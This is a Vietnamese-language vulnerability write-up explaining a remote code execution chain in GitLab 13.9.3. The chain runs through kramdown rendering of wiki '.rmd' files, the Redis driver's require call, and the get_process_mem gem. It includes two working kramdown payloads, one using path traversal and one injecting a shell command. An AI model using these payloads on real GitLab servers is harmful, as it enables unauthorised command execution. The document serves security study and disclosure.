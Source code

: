  - Tác giả đã phát hiện khi upload wiki page với file '\*.rmd' thì chương trình sẽ gọi `render_wiki_content` -> [`other_markup_unsafe`](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.9.3-ee/app/helpers/markup_helper.rb#L145) -> `GitHub::Markup.render`. Như vậy file '\*.rmd' sẽ được render với kramdown.
 
 - Tác giả đã up file '.rmd' của mình bằng cách clone wiki page về local, rồi sau đó sử dụng git để push wiki page (kèm file '.rmd') lên gitlab.
 - Tác giả đã sử dụng class [`Redis`](https://github.com/redis/redis-rb) (đã được khai báo sẵn ở prject Gitlab, thể nên ta có thể gọi và sử dụng class này) để chạy payload của mình.
 
 Khi khởi tạo class `Redis`, nếu có tồn tại option `driver` thì chương trình sẽ gọi tới hàm `_parse_driver`. Tại đây, chương trình `require "connection/#{driver}"` ta có thể tác động vào biến `driver` để chương trình gọi tới file payload mà mình tải lên server.
```ruby
def _parse_driver(driver)
      driver = driver.to_s if driver.is_a?(Symbol)

      if driver.kind_of?(String)
        begin
          require_relative "connection/#{driver}"
        rescue LoadError, NameError => e
          begin
            require "connection/#{driver}"
          rescue LoadError, NameError => e
            raise RuntimeError, "Cannot load driver #{driver.inspect}: #{e.message}"
          end
        end

        driver = Connection.const_get(driver.capitalize)
      end

      driver
    end
```
- Với tính năng  tạo mới `snippet`. Attacker có thể upload ruby payload với `Attach a file`.
-  Trong exploit này, attacker cần tìm được vị trí của file paylaod đã được tải lên. Điều này khiến tác giả tìm ra một hướng exploit khác:


Sử dụng hướng từ Kramdown gọi tới class Redis, đầu tiên tác giả import gem `get_process_mem` với payload
```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../get_process_mem\}" /}

~~~ruby
    def what?
      42
    end
~~~
```

Sau đó lại sử dụng gem `get_process_mem` đã import phía trước để RCE

```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{a: '`echo inject > /tmp/inject`', formatter: GetProcessMem\}" /}

~~ ruby
    def what?
      42
    end
~~
```
